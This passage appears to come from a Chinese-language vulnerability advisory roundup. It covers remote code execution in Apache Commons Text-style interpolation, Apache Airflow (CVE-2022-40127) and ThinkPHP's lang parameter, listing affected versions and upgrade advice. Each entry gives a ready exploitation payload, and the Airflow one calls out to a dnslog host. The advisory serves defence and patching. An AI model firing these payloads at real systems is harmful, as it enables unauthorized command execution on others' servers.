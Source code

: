     
    
    search=${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/foo')}  
      
    url编码  
    search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27touch%20%2Ftmp%2Ffoo%27%29%7D  
      
    可以尝试  
    search=${url:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/foo')}  
    search=${dns:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/foo')}  
    

 **修复建议**  
官方已发布漏洞补丁及修复版本，请评估业务是否受影响后，酌情升级至安全版本。

# 5、 **Apache Airflow 远程代码执行漏洞**

Apache Airflow 是一个可编程，调度和监控的工作流平台，基于有向无环图(DAG)，Airflow
可以定义一组有依赖的任务，按照依赖依次执行。当攻击者可访问到 Apache Airflow 的后台 UI，且环境中存在默认 dag 时，可构造恶意请求借助
run_id 执行任意命令。  
 **漏洞标签：** 历史重大漏洞、利用链成熟、服务器权限相关  
 **漏洞编号：** CVE-2022-40127  
**漏洞类型：** RCE  
 **受影响版本：**

  1. Airflow < 2.4.0

 **利用方法：**  
payload

    
    
    {"lab":"\";curl `uname`.****.dnslog.pw;\""}  
    

 **修复建议**  
官方已发布漏洞补丁及修复版本，请评估业务是否受影响后，酌情升级至安全版本。

# 6、 **ThinkPHP 命令执行漏洞**

该漏洞是由于 Thinkphp 开启了多语言功能，并且对参数 lang 传参过滤不严谨，导致攻击者可利用该漏洞执行命令。  
 **漏洞标签：** 国产框架、服务器权限相关、打点常见  
 **漏洞编号：** CNVD-2022-86535  
 **漏洞类型：** RCE  
 **受影响版本：**

  1. ThinkPHP ThinkPHP >=V6.0.1，<=V6.0.13
  2. ThinkPHP ThinkPHP >=V5.0.X，<=V5.1.X

 **利用方法：**  
payload

    
    
    /index?lang=…/…/…/…/…/…/…/…/usr/local/lib/php/pearcmd&+config-create+/&/+/var/www/html/test.php  
    

 **修复建议**  
如不需要多语言功能，请及时关闭此功能，可参考官方文档：  
https://www.kancloud.cn/manual/thinkphp6_0/1037637  
https://static.kancloud.cn/manual/thinkphp5/118132  
官方已发布漏洞补丁及修复版本，可以评估业务是否受影响后，酌情升级至安全版本
